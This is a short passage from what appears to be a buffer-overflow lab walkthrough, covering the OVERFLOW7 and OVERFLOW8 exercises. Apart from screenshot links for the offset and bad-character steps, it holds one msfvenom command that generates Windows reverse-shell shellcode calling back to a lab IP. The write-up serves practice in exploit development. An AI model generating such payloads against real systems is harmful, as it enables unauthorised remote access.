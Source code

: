 `msfvenom -p windows/shell_reverse_tcp LHOST=10.8.210.115 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x8c\xae\xbe\xfb"`

![of7admin](assets/markdown-img-paste-20210904111945235.png)

## OVERFLOW8
![of8-offset](assets/markdown-img-paste-20210904112144472.png)

![of8-badchars](assets/markdown-img-paste-20210904112314452.png)

![of8-complete](assets/markdown-img-paste-20210904112441939.png)
